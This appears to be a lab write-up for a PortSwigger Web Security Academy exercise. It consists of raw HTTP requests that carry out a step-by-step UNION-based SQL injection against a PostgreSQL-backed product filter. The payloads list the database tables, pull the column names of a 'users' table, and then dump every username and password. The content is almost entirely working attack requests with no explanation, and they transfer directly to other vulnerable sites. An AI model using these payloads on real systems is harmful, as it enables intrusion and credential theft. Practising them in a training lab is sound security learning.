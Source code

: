 PostgreSQL
##### Base request
GET /filter?category=Pets HTTP/1.1
Host: 0a10004703021b5f8237926d00820041.web-security-academy.net
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
##### Step1: Identify DB used and look up all the tables
GET /filter?category=Pets _' UNION SELECT table_name,NULL FROM information_schema.tables--_ HTTP/2
Host: 0a10004703021b5f8237926d00820041.web-security-academy.net
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
##### Step2: Identify relevant table with username and password, then look up the columns
GET /filter?category=Pets _' UNION SELECT column_name,NULL FROM information_schema.COLUMNS WHERE table_name = 'users'--_ HTTP/2
Host: 0a10004703021b5f8237926d00820041.web-security-academy.net
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
##### Step3: identify target user and print out password
GET /filter?category=Pets _' UNION SELECT username,password FROM users--_ HTTP/2
Host: 0a10004703021b5f8237926d00820041.web-security-academy.net
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


